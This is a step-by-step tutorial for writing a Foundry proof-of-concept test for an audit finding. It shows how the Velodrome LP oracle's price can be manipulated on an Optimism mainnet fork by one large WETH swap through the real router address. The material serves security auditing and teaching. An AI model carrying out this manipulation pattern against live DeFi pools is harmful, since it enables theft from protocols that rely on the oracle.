







# Liquidity Prices Attack Foundry Test

## Introduce

We will create a Foundry test (POC Proof of Concept) to verify the [Velodrome LP Share calculation wont work for all velodrome pools](https://github.com/hats-finance/VMEX-0x050183b53cf62bcd6c2a932632f8156953fd146f/issues/24) finding.

We will design a simulation to test an attack scenario where the attacker attempts to mainpulate the price of a liquidity pool (LP) by extensively swapping tokens, and verify if the price changes.

## Setup

1. Init project
   ```
       forge init liquidity_prices_attack --no-commit
   ```
2. Set solc version

   Add solc version in `foundry.toml`

   ```
       solc = '0.8.20'
   ```

   The version of solc refers to the version in OpenZeppelion lib

## Attecker POC

### Find Issue Contracts in project repo

Issus Contract is `VelodromeOracle.sol` in audit repot.

- Github Repo -> Go to file -> Search `VelodromeOracle`-> Raw -> Copy whole `VelodromeOracle` file -> cover `src/Counter.sol` -> ReName `src/Counter.sol` to `src/VelodromeOracle.sol`

- Change `library` to `contract`

### Install dependencies

- `{IERC20}`: Using OZ ERC20 interface replace origin ERC20 contracts

  ```
    cd liquidity_prices_attack
    forge install OpenZeppelin/openzeppelin-contracts --no-commit
  ```

  OZ will intall in the path `lib/openzeppelin-contracts`

  Replace

  ```
    import {IERC20} from "../../interfaces/IERC20WithPermit.sol";
  ```

  To

  ```
    import {IERC20} from "lib/openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
  ```

- `{vMath}`: Using OZ Math interface replace origin Math

  Replace

  ```
    import {vMath} from "./libs/vMath.sol";
  ```

  To

  ```
    import {Math} from "lib/openzeppelin-contracts/contracts/utils/math/Math.sol";
  ```

  There's no `nthroot` function in OZ Math. It's custom-made function. Search it in `vMath.sol` and copy it into the test file as a function of `VelodrmeOracle`

  Github repo -> Go to file -> Search `vMath` -> Find `nthroot` function -> Copy to `VelodromeOracle.sol`, in the `contract VelodromeOracle`

  We don't need the scene when n=3, so delete it.

  ```
    if(n==3){
  	return FixedPointMathLib.cbrt(val);
  }
  ```

  Next, replace

  ```
    uint256 a = vMath.nthroot(2, reserve0 * reserve1); //square root
  uint256 b = vMath.nthroot(2, price0 * price1); //this is in decimals of chainlink oracle
  ```

  to

  ```
    uint256 a = nthroot(2, reserve0 * reserve1); //square root
  uint256 b = nthroot(2, price0 * price1); //this is in decimals of chainlink oracle
  ```

- `{IVeloPair}`: Copy `IVeloPair` interface into test file.

  Github repo -> Go to file -> Search `IVeloPair` -> Raw -> Copy to `VelodromeOracle.sol`, before `contract VelodromeOracle`

### Change Function Visibility

Since the test requires the `get_lp_price` function, its function visibility needs to be changed from `internal` to `public`.

### Build Test

Run `forge build` to check if the basic configuration is correct.

### Set Up Import

- Delete the sample test file, create the new test code or change the name of `Counter.t.sol` to `VerodromeOracle.t.sol`
- Change
  ```
  import "../src/Counter.sol";
  ```
  to
  ```
  import "../src/VerodromeOracle.sol";
  ```
- Delete the sample of test functions, if you rename the sample test file.

```
    import "forge-std/Test.sol";
    import "../src/VerodromeOracle.sol";

```
### Add the addresses required for testing

Search Token address from [Optimism](https://optimistic.etherscan.io/)

1. WETH Address: 0x4200000000000000000000000000000000000006
2. wstETH Address: 0x1F32b1c2345538c0c6f582fCB022739c4A194Ebb

Search `veldrome optimism router` in Google and open the contract [link](https://optimistic.etherscan.io/address/0x9c12939390052919af3155f41bf4160fd3666a6f) 
  - [Velodrome Finance:Router](https://optimistic.etherscan.io/address/0x9c12939390052919af3155f41bf4160fd3666a6f#readContract) -> Contract -> Read Contract -> pairFor
  - Get Stable pair address 
    
    

    Stable Pair Address: 0xBf205335De602ac38244F112d712ab04CB59A498

  - Get Volatile pair address
    
    `stable (false)`

    

    Volatile Pair Address: 0xc6C1E8399C1c33a3f1959f2f77349D74a373345c

  - Get Velodrome Finance:Router Address
    
    

    Velodrome Router: 0x9c12939390052919aF3155f41Bf4160Fd3666A6f

    ```
        pragma solidity ^0.8.13;

        import "forge-std/Test.sol";
        import "../src/VerodromeOracle.sol";

        contract VeloOracleTest is Test {
            VelodromeOracle public oracle;

            // WETH Address: 0x4200000000000000000000000000000000000006
            // wstETH Address: 0x1F32b1c2345538c0c6f582fCB022739c4A194Ebb
            // Stable Pair Address: 0xBf205335De602ac38244F112d712ab04CB59A498
            // Volatile Pair Address: 0xc6C1E8399C1c33a3f1959f2f77349D74a373345c
            // Velodrome Router: 0x9c12939390052919aF3155f41Bf4160Fd3666A6f
        
        }
    ```
### Write SetUp Function

```solidity
    function setUp() public {
        oracle = new VelodromeOracle(); //Inlitialize the oracle with a new instance of VelodromeOracle
    }
```

### Wrtite Test Case Code

We plan to simulate the attack in four steps.

```solidity
    function testAttack() public {

    }
```

#### 1. Check initial Price
Set stable pair liquidity pool address using `0xBf205335De602ac38244F112d712ab04CB59A498`

```
    address constant STABLE_PAIR = 0xBf205335De602ac38244F112d712ab04CB59A498;
```

Using `get_lp_price` to fetch the initial price of the LP token from the `oracle` in the `STABLE_PAIR` liquidity pool.

There are two parameters in `get_lp_price(address lp_token, uint256[] memory prices)`
- Using `STABLE_PAIR` for the first parmeter.
- Initializing an arry with fixed values(1e18) for the second parmeter.

```solidity
        uint256[] memory prices = new uint256[](2); // for get_lp_price's second parameter: @param prices The prices of the underlying in the liquidity pool
        prices[0] = 1e18;
        prices[1] = 1e18;
        // Attack Pattern
        // 1. Check initial Price
        uint256 initialPrice = oracle.get_lp_price(STABLE_PAIR,prices);
```

#### First Build and Fork Tests
Frist, build and debug tests.

```bash
  forge build
  forge test
```

Due to the need to fetch the latest prices from the Optimism Mainnet, using `forge test` results in a `FAIL`. Thus, Fork Tests are needed. Using the following command.

```bash
   forge test --rpc-url https://opt-mainnet.g.alchemy.com/v2/YOUR_OPTIMISM_MAINNET_API
```

You can get an Optimism Mainnet fork URL from [Alchemy](https://www.alchemy.com/).


#### 2. Check a reserve

The reserve of a liquidity pool refer to the quantity of each token in the pool. Reserve can usually be accessed directly through contract functions `getReserves`.

However, there is a trick way using `WETH.balanceOf(STABLE_PAIR)` to obtain the balance of `WETH` tokens in the `STABLE_PAIR` liquidity pool as an approximate way to estimate the pool's reserves

```solidity
        // 2. Check a reserve
        // Trick, just get balance of LP token, since it's so manipulated yet
        uint256 initialBalanceOfWETH = WETH.balanceOf(STABLE_PAIR);
```

#### 3. Do a Massive Swap
1. Create a mock address used to simulate an attacker
   ```solidity
       address constant ATTACKER = address(Oxbad);
   ```
2. Using `deal()` to driectly assign a token balance to a specific account.
   ```solidity
      deal(address(WETH), address(ATTACKER), initialBalanceOfWETH); // Assign a specified amount of WETH tokens (`intialBalanceOfWETH` to the ATTACKER account.)
   ```
3. Using `startPrank()` set the sender(`msg.sender`) of the test environment, unitl `vm.stopPrank()` is called.
   ```solidity
       vm.startPrank(ATTACKER);
   ```
4. Approve transfer
   ```solidity
       WETH.approve(address(VELO_ROUTER), initialBalanceOfWETH); // Authorizing the `VELO_ROUTER` contract to transfer up to an `initialBalanceOfWETH` amount of WETH tokens from the `ATTACKER` account.
   ```
5. Calling the Swap function on the Velodrome Finance: Router,so create the interface IRouter in your test file.
   
   create interface `IRouter` and constant of `IRouter`, finding the [address](https://optimistic.etherscan.io/address/0x9c12939390052919af3155f41bf4160fd3666a6f#readContract) of Velodrome Finance: Router.

   ```
       interface IRouter{

       }
       
       contract VeloOracleTest is Test {
       ......
           address constant ATTACKER = address(0xbad); // a mock address used to simulate an attacker

           IRouter constant VELO_ROUTER = IRouter(0x9c12939390052919aF3155f41Bf4160Fd3666A6f); // the address of a router contract that handles swapping tokens
       }
   ```
6. Find Swap function and add it into interface IRouter
   
   Finding the accurate swap function from [Velodrome Finance: Router](https://optimistic.etherscan.io/address/0x9c12939390052919af3155f41bf4160fd3666a6f#writeContract) in Optimistic.
   
   Contract -> Write Contract Section -> `swapExactTokensForTokens`
   
   
   In Code Section, search `swapExactTokensForTokens` code and only copy function definition to the interface.
   

   ```solidity
      interface IRouter {          
          function swapExactTokensForTokens(
              uint amountIn,
              uint amountOutMin,
              route[] calldata routes,
              address to,
              uint deadline
          ) external;
      }
   ```

   Add other necessary code, `struct route{...}` to your interface

   ```solidity
      interface IRouter {
          struct route {
              address from;
              address to;
              bool stable;
          }          
          function swapExactTokensForTokens(
              uint amountIn,
              uint amountOutMin,
              route[] calldata routes,
              address to,
              uint deadline
          ) external;
      }
   ```
7. Using `swapExactTokensForTokens` in your test file.
 
   ```solidity
       VELO_ROUTER.swapExactTokensForTokens(amountIn, amountOutMin, routes, to, deadline)
   ```

   There are five parameters: `amountIn`, `amountOutMin`, `routes`, `to`, `deadline`

   - `amountIn`: `initialBalanceOfWETH`
   - `amountOutMin`: `1`
   - `to`: `address(ATTACKER)`
   - `deadline`: `block.timestamp`
   - `routes`
   
   Setting up a route for a token swap operation. It involves sepcifying the path a token swap should take, including the source and destination tokens, and whether the swap should occur through a stable or volatile liquidity pool.
   Because the function `swapExactTokensForTokens` use an array `routes` of type `route` as its third parameter, we need to use an array of length 1.
   
   ```solidity
        /**
        struct route {
            address from;
            address to;
            bool stable;
        }
        */
        IRouter.route[] memory r = new IRouter.route[](1);
        IRouter.route memory the_route = IRouter.route({
            from: address(WETH),
            to: address(WSTETH),
            stable: true
        });

        r[0] = the_route;
        VELO_ROUTER.swapExactTokensForTokens(initialBalanceOfWETH, 1, r, address(ATTACKER), block.times)
   ```

#### 4. Verify if Price Changes
1. After `swapExactTokensForTokens`, use `get_lp_price` to obtain the latest LP price, and use `assertEq` to determine whether the price has changed.
   
   ```solidity
        // 4. Verify if Price Changes
        uint256 newPrice =  oracle.get_lp_price(STABLE_PAIR,prices);
        assertEq(initialBalanceOfWETH, newPrice, "Different");
   ```
2. Using `console2.log` to print price in the console. 

   ```solidity
       import "forge-std/console2.sol";
       ......
               uint256 initialPrice = oracle.get_lp_price(STABLE_PAIR,prices);
               console2.log("initialPrice: ", initialPrice);
       ......
               // 4. Verify if Price Changes
               uint256 newPrice =  oracle.get_lp_price(STABLE_PAIR,prices);
               console2.log("newPrice: ", newPrice);
               assertEq(initialBalanceOfWETH, newPrice, "Different");

   ```
##### 5. Test Result
The test results indicate a significant change in the liquidity pool price reported by the `VelodromeOracle` contract after simulating an attack, with the initial price at approximately `1.834e18` and the new price dropping to about `0.992e18` post-attack. This discrepancy highlights a potential vulnerability in the contract's price feedback mechanism, especially under extreme market conditions or manipulative actions.




## Tips

- Using balance of LP token to approximate the pool's reserves

- Use [Solidity by Example](https://solidity-by-example.org/) to assist in writing test code 

- Use `-vvv` to check the detail of test, if there are some error.
  ```
      forge test --rpc-url https://opt-mainnet.g.alchemy.com/v2/YOUR_API -vvv
  ```
## Thanks
Case From: [Foundry for Blazing Fast Brute Forcing](https://youtu.be/tDFA8cnHoCY?t=8063)
